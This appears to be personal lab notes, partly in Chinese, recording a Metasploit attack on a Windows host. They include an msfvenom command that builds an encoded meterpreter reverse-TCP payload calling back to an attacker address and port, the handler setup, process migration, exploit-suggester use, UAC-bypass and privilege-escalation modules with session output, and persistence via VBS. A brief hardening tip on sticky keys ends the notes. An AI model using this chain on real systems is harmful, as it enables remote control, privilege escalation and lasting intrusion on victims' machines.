

```
C:\Users\22154>netstat -ano|findstr 11300
  TCP    172.30.48.1:53633      172.30.56.107:11300    ESTABLISHED     21716
  TCP    172.30.48.1:53699      172.30.56.107:11300    ESTABLISHED     5212
  TCP    172.30.48.1:53704      172.30.56.107:11300    ESTABLISHED     17876
```



[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[!] UAC set to DoNotPrompt - using ShellExecute "runas" method instead
[*] Uploading kFJOgrXchF.exe - 7168 bytes to the filesystem...


msfvenom -a x86 –platform windows -p windows/meterpreter/reverse_tcp lhost=172.30.56.107 lport=11300 -i 3 -e x86/shikata_ga_nai -f exe -o payload.exe

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp #设置成payload的模式
set LHOST 172.30.56.107
set lport 11300
exploit -j
sessions -i 2
shell
#进行进程迁移
tasklist|findstr explorer
migrate 1844
background
chcp 65001
#探测系统漏洞，比较耗费系统资源
use post/multi/recon/local_exploit_suggester
set session 1
exploit 

use exploit/windows/local/ms16_032_secondary_logon_handle_privesc

use exploit/windows/local/bypassuac_fodhelper

set session 3

exploit 

## 上传到了临时文件夹

检测发现后面上传的利用工具都

C:\Users\22154\AppData\Local\Temp\OkNyUvljPBU.ps1
C:\Users\22154\AppData\Local\Temp\AFYMdwEU.ps1
VFvBBvAw.exe

## 提权
```
msf6 exploit(windows/local/bypassuac_dotnet_profiler) > exploit

[*] Started reverse TCP handler on 172.30.56.107:11300
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[!] UAC set to DoNotPrompt - using ShellExecute "runas" method instead
[*] Uploading XyrFnIA.exe - 7168 bytes to the filesystem...
[*] Executing Command!
[*] Sending stage (200774 bytes) to 172.30.48.1
[*] Meterpreter session 5 opened (172.30.56.107:11300 -> 172.30.48.1:54093) at 2023-11-28 20:15:41 +0800
```


## 维持
run persistence 借助vbs


## 加固

#### 关闭“启用粘滞键”选项 

辅助功能-->键盘，全部取消。